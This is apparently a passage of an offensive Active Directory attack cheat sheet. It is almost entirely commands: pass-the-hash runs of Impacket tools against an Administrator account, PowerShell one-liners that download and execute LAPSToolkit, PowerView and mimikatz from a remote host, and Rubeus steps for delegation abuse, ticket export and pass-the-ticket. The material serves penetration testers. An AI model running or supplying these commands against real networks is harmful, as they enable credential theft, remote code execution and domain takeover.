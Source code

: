 ```powershell
python atexec.py -hashes 00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 Administrator@192.168.1.105 whoami
python lookupsid.py -hashes 00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 ignite/Administrator@192.168.1.105
python samrdump.py -hashes 00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 ignite/Administrator@192.168.1.105
```

##### LAPS

```powershell
iex(new-object net.webclient).downloadstring(http://ip:port/LAPSToolkit.ps1);Get-LAPSComputers
```

```powershell
iex(New-Object Net.WebClient).DownloadString('http://IP/PowerView.ps1');Get-ADObject -Name MachineName -DomainController IP -Properties ms-mcs-admpwd 
```

##### Unconstrained Delegation

```powershell
Rubeus:

Get-NetComputer -UnConstrained
Rubeus triage
Rubeus monitor /monitorinterval:1 /nowrap
SpoolSample DC01 helpdesk.lab
Rubeus ptt /ticket:
klist


Mimikatz:

iex(new-object net.webclient).downloadstring('http://ip:port/mimikatz.txt');invoke-mimikatz -Command privilege::debug;invoke-mimikatz -Command sekurlsa::tickets;invoke-mimikatz -Command '"sekurlsa::tickets /export"';invoke-mimikatz -command '"kerberos::ptt [0;9eaea]-2-0-60a10000-admin@krbtgt-PROD.CORP1.COM.kirbi"'
```

##### Constrained Delegation

```powershell
User Constrained Delegation

Get-NetUser -TrustedToAuth
Rubeus.exe tgtdeleg
Rubeus.exe s4u /ticket: /impersonateuser:administrator /domain:offense.local /msdsspn:cifs/dc01.offense.local /dc:dc01.offense.local /ptt
klist


Machine Constrained Delegation

NT AUTHORITY REQUIRED

Get-NetComputer -TrustedToAuth
[Reflection.Assembly]::LoadWithPartialName('System.IdentityModel') | out-null
$idToImpersonate = New-Object System.Security.Principal.WindowsIdentity @('administrator')
$idToImpersonate.Impersonate()
[System.Security.Principal.WindowsIdentity]::GetCurrent() | select name
```
